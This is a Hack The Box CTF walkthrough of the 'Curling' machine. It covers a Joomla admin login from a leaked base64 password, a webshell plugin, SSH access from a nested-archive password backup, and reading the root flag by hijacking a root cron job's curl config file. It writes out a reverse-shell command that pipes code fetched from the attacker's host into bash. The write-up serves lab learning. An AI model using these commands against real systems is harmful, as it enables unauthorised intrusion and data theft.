 # Curling

**Date**: 13/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Curling](https://app.hackthebox.com/machines/Curling)

***

Let’s start testing the connection with the target machine:

<figure><img src="../../.gitbook/assets/curling0.png" alt=""><figcaption></figcaption></figure>

We receive back the packet, so we have connection. Let’s scan the open TCP ports:

<figure><img src="../../.gitbook/assets/curling1.png" alt=""><figcaption></figcaption></figure>

The scan discovered 2 open TCP ports: 22 (ssh) and 80 (http). Let’s try to obtain the service and version running in these ports:

<figure><img src="../../.gitbook/assets/curling2.png" alt=""><figcaption></figcaption></figure>

We got OpenSSH 7.6p1 running in the port 22.

<figure><img src="../../.gitbook/assets/curling3.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be a Ubuntu Bionic.

And we have an Apache 2.4.29 service running in the port 80. We can also see that is hosting a Joomla. Let’s try to obtain more info of the website using whatweb:

<figure><img src="../../.gitbook/assets/curling4.png" alt=""><figcaption></figcaption></figure>

It doesn’t give us additional useful information. Let’s see how the website looks:

<figure><img src="../../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

It looks very simple. There are 3 post written by the user Super User. There is something in the first post that catches my eye, the word `curling2018`. It looks like a password maybe? The post is also signed by Floris, maybe that could be a username?It worth the try.

<figure><img src="../../.gitbook/assets/curling6.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling8.png" alt=""><figcaption></figcaption></figure>

Nope, at least not that combination of user and password. I also tried with `admin` and `administrator` usernames.

Let’s see the source code to see if we can obtain the Joomla version:

<figure><img src="../../.gitbook/assets/curling9.png" alt=""><figcaption></figcaption></figure>

secret.txt? weird… It would be a file accessible?

<figure><img src="../../.gitbook/assets/curling10.png" alt=""><figcaption></figcaption></figure>

Yes… it is. Maybe we can try to login again using that string as a password.

I tried, with no success. The way this string looks… maybe is coded in b64?

<figure><img src="../../.gitbook/assets/curling11.png" alt=""><figcaption></figcaption></figure>

Yeah! Let’s try again:

<figure><img src="../../.gitbook/assets/curling12.png" alt=""><figcaption></figcaption></figure>

Woho! We succeded login with the credentials!

We seen that the SSH port was open, let’s try to use this credentials to gain access to the target machine:

<figure><img src="../../.gitbook/assets/curling14.png" alt=""><figcaption></figcaption></figure>

Ok, this credentials are not valid for the SSH connection.

Let’s see if we can access to the administration panel of the Joomla:

<figure><img src="../../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (21).png" alt=""><figcaption></figcaption></figure>

Yup! Let’s see if we can see the version:

<figure><img src="../../.gitbook/assets/imagen (22).png" alt=""><figcaption></figcaption></figure>

As we are inside the administration panel, maybe we can install a webshell or a reverse shell php file… Let’s investigate.

After a research, I found this github repo:

[https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)

It contains a Joomla extension that we can upload to the website and it will give us a webshell. Pretty cool!

So, let’s follow all the instructions! And try to execute a command!

<figure><img src="../../.gitbook/assets/imagen (23).png" alt=""><figcaption></figcaption></figure>

Yeah! We succesfully executed the `ls` command!

Let’s see if we can ping out machine from the target machine:

<figure><img src="../../.gitbook/assets/curling19.png" alt=""><figcaption></figcaption></figure>

Yes we can! Let’s try to establish a revshell to operate more easily:

First of all, I’m going to create a `pwn` file in my system with the payload to establish a reverse shell and share it using a http server:

<figure><img src="../../.gitbook/assets/curling20.png" alt=""><figcaption></figcaption></figure>

Now, I’m going to execute a command that will read that file from my computer and will pipe it to the bash, executing the command:

`curl 10.10.14.234/pwn | bash`

but URL encoded:

`curl%2010.10.14.234%2Fpwn%20%7C%20bash`

<figure><img src="../../.gitbook/assets/imagen (24).png" alt=""><figcaption></figcaption></figure>

And we obtained a revshell.

<figure><img src="../../.gitbook/assets/curling22.png" alt=""><figcaption></figcaption></figure>

We have no permissions to read the user flag, but we can read the password\_backup file:

<figure><img src="../../.gitbook/assets/curling23.png" alt=""><figcaption></figcaption></figure>

Let’s copy it in our machine:

<figure><img src="../../.gitbook/assets/curling24.png" alt=""><figcaption></figcaption></figure>

It looks like an hexadecimal version of something, let’s try to get the original file:

`xxd -revert password_backup password_backup_original`

<figure><img src="../../.gitbook/assets/curling25.png" alt=""><figcaption></figcaption></figure>

Ok, we got a bzip2 file. Let’s decompress it using bzip2 tool:

<figure><img src="../../.gitbook/assets/curling26.png" alt=""><figcaption></figcaption></figure>

And… now we have a gzip file… let’s rename it and decompress it:

<figure><img src="../../.gitbook/assets/curling27.png" alt=""><figcaption></figcaption></figure>

And… another bzip2 file… let’s decompress it:

<figure><img src="../../.gitbook/assets/curling28.png" alt=""><figcaption></figcaption></figure>

Now a POSIX tar. Let’s decompress it too:

<figure><img src="../../.gitbook/assets/curling29.png" alt=""><figcaption></figcaption></figure>

Finally a txt file!

Ok, it’s a strange password, but let’s try to use it to login as `floris` via SSH:

<figure><img src="../../.gitbook/assets/curling30.png" alt=""><figcaption></figcaption></figure>

Yeah, we are in! Let’s read the user flag:

<figure><img src="../../.gitbook/assets/curling31.png" alt=""><figcaption></figcaption></figure>

Now we have to escalate our privileges… Let’s start looking if we have sudo privileges:

<figure><img src="../../.gitbook/assets/curling32.png" alt=""><figcaption></figcaption></figure>

Nothing. Let’s look for SUID binaries:

<figure><img src="../../.gitbook/assets/curling33.png" alt=""><figcaption></figcaption></figure>

None of them (except polkit) can be used to escalate… Let’s look for binaries with capabilities:

<figure><img src="../../.gitbook/assets/curling34.png" alt=""><figcaption></figcaption></figure>

Nothing useful. Maybe there is a cronjob?

<figure><img src="../../.gitbook/assets/curling35.png" alt=""><figcaption></figcaption></figure>

Nope. Maybe can we edit something that is in the PATH?

<figure><img src="../../.gitbook/assets/curling36.png" alt=""><figcaption></figcaption></figure>

Ok, I’m out of ideas, so let’s go back to the initial point. There is a folder we have not inspected yet.

The modification date of the files was suspicious, I waited a minute to confirm that they are being updated each minute.

<figure><img src="../../.gitbook/assets/curling37.png" alt=""><figcaption></figcaption></figure>

Nice moment to use pspy to see what’s going on.

<figure><img src="../../.gitbook/assets/curling38.png" alt=""><figcaption></figcaption></figure>

each minute, the input file is being overwritten and after that, a curl command is being executed. I’m sure I can use this to escalate or, at least, to read the /root/root.txt flag.

<figure><img src="../../.gitbook/assets/curling39.png" alt=""><figcaption></figcaption></figure>

the `-K` option reads the config from input file.

<figure><img src="../../.gitbook/assets/curling40.png" alt=""><figcaption></figcaption></figure>

The input is pointing to [localhost](http://localhost) IP.

Ok, so I think that there are some possibilities:

1. Try to edit the content of `input` file after the script that executes each minute does it and before the automatic `curl` command.
2. Try to redirect the [localhost](http://localhost) to other folder instead of `/var/www/http`
3. Try to include a file into the web the curl is requesting that only root has access to (/root/root.txt)

Let’s start with the first one.

<figure><img src="../../.gitbook/assets/curling41.png" alt=""><figcaption></figcaption></figure>

After looking to the pspy a while, we can recognize some scripts being executed:

* `/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input` : This script is waiting 1 second, and then, copying the content of the file **default.txt** inside the **input** file
* `curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report` : This script is doing a **curl** to the url inside the **input** file and saving the response inside the file **report**

I’m thinking that, as the first script is waiting 1 second before executing the curl, maybe is executing after the curl script. This would mean that if we edit the input file, the curl may use our URL instead of the default one? Let’s try.

As `curl` accepts the `url="file//path-to-file"` parameter, we can point to `/root/root.txt` hoping the flag is there. If it’s there and this script is executing first, we should copy the content of the flag into the `report` file. We have to be fast, as after 1 minute, the cult command will use the default input file and will overwrite the report file.

<figure><img src="../../.gitbook/assets/curling42.png" alt=""><figcaption></figcaption></figure>

So, I have changed the content of `input`. As can be seen in the bottom of the image, after the change, the report remains as the webpage content.

<figure><img src="../../.gitbook/assets/curling43.png" alt=""><figcaption></figcaption></figure>

After a minute I performed a `cat report` command, and voila! We got the root flag content.
